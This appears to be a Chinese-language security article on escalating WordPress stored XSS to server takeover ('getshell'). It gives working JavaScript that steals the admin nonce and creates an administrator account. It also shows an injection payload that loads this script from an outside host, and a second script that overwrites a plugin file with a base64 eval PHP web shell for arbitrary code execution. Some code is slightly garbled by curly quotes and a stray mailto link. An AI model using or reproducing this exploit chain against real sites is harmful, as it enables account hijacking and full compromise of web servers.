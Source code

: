 ```yaml
---
title: "（从xss到getshell） xss的深层次利用与探讨"
id: zhfly3269
---
```


# （从xss到getshell） xss的深层次利用与探讨

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian@lcx.cc

## 通过js文件添加wp系统管理员

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin [.] js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为“ attacker”，密码为“ attacker”。

```
// Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
var ajaxRequest = new XMLHttpRequest();  
var requestURL = "/wordpress/wp-admin/user-new.php";  
var nonceRegex = /ser" value="([^"]*?)"/g;  
ajaxRequest.open("GET", requestURL, false);  
ajaxRequest.send();  
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
var nonce = nonceMatch[1]; `// Construct a POST query, using the previously extracted ‘nonce’ value, and create a new user with an arbitrary username / password, as an Administrator

var params = “[action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com](mailto:action=createuser&_wpnonce_create-user=%22+nonce+%22&user_login=attacker&email=attacker@site.com)&pass1=attacker&pass2=attacker&role=administrator”;

ajaxRequest = new XMLHttpRequest();

ajaxRequest.open(“POST”, requestURL, true);

ajaxRequest.setRequestHeader(“Content-Type”, “application/x-www-form-urlencoded”);

ajaxRequest.send(params);` 
```

然后，攻击者可以使用以下PoC插入JavaScript。

```
“"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;” 
```

### 图1.插入XSS代码以添加管理员帐户

![image](../img/97ceaf33f091c57249f5bac277b01c95.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户“攻击者”。

### 图2\. XSS代码被执行

![image](../img/a9c6006dc97746273d6edc47e7eb9bf3.png)

### 图3\. XSS代码创建的具有管理员权限的“攻击者”帐户

![image](../img/18854193a8135c45a3969739dad7d9be.png)

然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![image](../img/643e2f2cc70e08b3ae62893f603f0edc.png)

图5.控制Web服务器

![image](../img/d929883375e2106e48ef99b1b0f7340f.png)

### 2、恶意命令执行

```
// Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
var nonceRegex = /ce" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1]; `// Construct a POST query, using the previously extracted ‘nonce’ value, and update the content of the file ‘akismet/index.php’ with our tiny web shell

var params = “_wpnonce=”+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST[‘x’]));&action=update&file=akismet/index.php"

ajaxRequest = new XMLHttpRequest();

ajaxRequest.open(“POST”, requestURL, true);

ajaxRequest.setRequestHeader(“Content-Type”, “application/x-www-form-urlencoded”);

ajaxRequest.send(params);` 
```

一旦此XSS被管理用户触发，我们应该能够通过向脚本

http://0-sec.org/wp-content/plugins/akismet/index.php

发送GET / POST请求来执行任意PHP代码，其中参数“ x”等于我们的PHP代码的“ base64_encode”。